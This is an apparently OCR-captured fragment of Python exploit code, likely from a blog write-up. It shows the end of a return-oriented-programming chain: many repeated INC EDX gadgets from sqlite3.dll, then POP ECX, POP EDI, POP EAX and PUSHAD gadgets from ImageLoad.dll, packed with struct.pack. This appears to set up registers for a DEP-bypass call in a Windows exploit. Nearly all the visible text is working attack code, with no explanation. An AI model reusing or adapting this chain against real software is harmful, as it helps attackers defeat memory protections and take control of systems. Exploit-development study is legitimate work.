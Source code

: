       0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll] 
      0x1001b4f6,  # POP ECX # RETN [ImageLoad.dll] 
      0x61c73281,  # &Writable location [sqlite3.dll]
      0x100194b3,  # POP EDI # RETN [ImageLoad.dll] 
      0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
      0x10015442,  # POP EAX # RETN [ImageLoad.dll] 
      0x90909090,  # nop
      0x100240c2,  # PUSHAD # RETN [ImageLoad.dll] 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
{% endcodeblock %}
